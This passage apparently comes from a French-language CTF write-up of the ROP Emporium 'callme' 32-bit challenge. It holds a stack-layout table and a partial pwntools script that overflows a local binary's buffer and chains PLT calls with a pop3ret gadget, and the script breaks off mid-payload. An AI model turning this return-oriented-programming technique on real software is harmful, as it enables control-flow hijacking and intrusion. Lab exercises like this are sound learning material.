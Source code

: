 | 0xdeadbeef | param1 |
| 0xcafebabe | param2 |
| 0xd00df00d | param3 |
| 0x0804875e | callme_three@plt |
| 0x080484aa | pop3ret |
| 0xdeadbeef | param1 |
| 0xcafebabe | param2 |
| 0xd00df00d | param3 |


### Exploitation
## Script python

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# break apres le read dans pwnme
gs='''
b *pwnme+97
c
'''

# Set up pwntools for the correct architecture
elf =  ELF('callme32')
context.binary=elf

# Offset avant ecrasement de l'adresse de retour
offset=0x2c

callme_one=elf.plt['callme_one']
callme_two=elf.plt['callme_two']
callme_three=elf.plt['callme_three']

# Au choix
# 0x080484aa : add esp, 8 ; pop ebx ; ret
g_pop3ret=0x080484aa
# 0x080487f9 :  pop esi ; pop edi ; pop ebp ; ret
#g_pop3ret=0x080487f9

io = process([elf.path])

if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)

log.info(f"{callme_one=:x}")
log.info(f"{callme_two=:x}")
log.info(f"{callme_three=:x}")

# io.recvuntil(b"> ")

PL =b"A"*offset
PL+=p32(callme_one)
PL+=p32(g_pop3ret)
PL+=p32(0xdeadbeef)
```